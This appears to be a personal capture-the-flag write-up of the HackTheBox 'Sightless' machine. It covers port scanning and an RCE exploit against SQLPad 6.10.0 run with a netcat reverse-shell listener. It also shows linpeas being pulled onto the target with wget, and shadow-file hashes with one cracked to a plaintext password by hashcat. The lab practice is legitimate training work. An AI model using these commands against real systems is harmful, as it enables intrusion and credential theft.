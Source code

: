 # Enumeration

```
nmap -sV --open -oA sightless_initial_scan 10.10.11.32
nmap -p- --open -oA sightless_full_tcp_scan 10.10.11.32
```

```
# Nmap 7.95 scan initiated Sat Sep 28 14:46:49 2024 as: nmap -sV --open -oA sightless_initial_scan 10.10.11.32
Nmap scan report for 10.10.11.32
Host is up (0.058s latency).
Not shown: 951 closed tcp ports (conn-refused), 46 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.95%I=7%D=9/28%Time=66F84F36%P=x86_64-apple-darwin21.6.0%
SF:r(GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\
SF:x20Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\
SF:x20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20tr
SF:y\x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 28 14:47:36 2024 -- 1 IP address (1 host up) scanned in 47.11 seconds
```

```
nc -nv 10.10.11.32 21
10.10.11.32 21 (ftp) open

nc -nv 10.10.11.32 22
10.10.11.32 22 (ssh) open
SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.10

nc -nv 10.10.11.32 80
10.10.11.32 80 (http) open
```

```
nmap -sC -p 21,22,80 -oA sightless_script_scan 10.10.11.32
```

Nothing new there.

```
nmap -sV --script=http-enum -oA sightless_nmap_http_enum 10.10.11.32 
```

Again nothing new.

Added to the etc hosts file.

Opening the webpage I see this in the source:

``` html
 <p>SQLPad is a web app that lets users connect to various SQL servers via a browser. Click "Start Now" to try a demo!</p>
                <p style="text-align: center;">
                <a class="button" href="http://sqlpad.sightless.htb/"> Start Now</a>

```

Adding to the /etc/hosts


Opening the page it seems to allow SQL queries.

But I need to make a connection to the sql server. Which I don't know the connection string...

The version of SQL Pad:  Version: 6.10.0

This has an RCE vuln.

Getting a copy of the RCE is easy. And now I have a foothold.

`nc -nvlp 4000`
`python3 exploit.py http://sqlpad.sightless.htb:80 10.10.14.73 4000`

# Foothold

So it connects me as root... but I am not seeing anything.

Maybe I need to connect with SSH

Nope, neither root nor michael have a .ssh to copy

Get linpeas on the machine.

My machine:
`python3 -m http.server 8001`

Target machine:
`wget http://10.10.14.98:8001/linpeas.sh `


Results:
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::

```
hashcat hash.txt /Users/noneya/Useful/Wordlists/rockyou.txt

$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa....L2IJD/
```
I can SSH now.

That gets me User. Now for priv esc

# Priv esc

Run linpeas again after running this again:

My machine:
`python3 -m http.server 8001`

Target machine:
`wget http://10.10.14.98:8001/linpeas.sh `

Was lost, found the answer online... https://thecybersecguru.com/ctf-walkthroughs/mastering-sightless-beginners-guide-from-hackthebox/

But didn't root the box because thats not fair
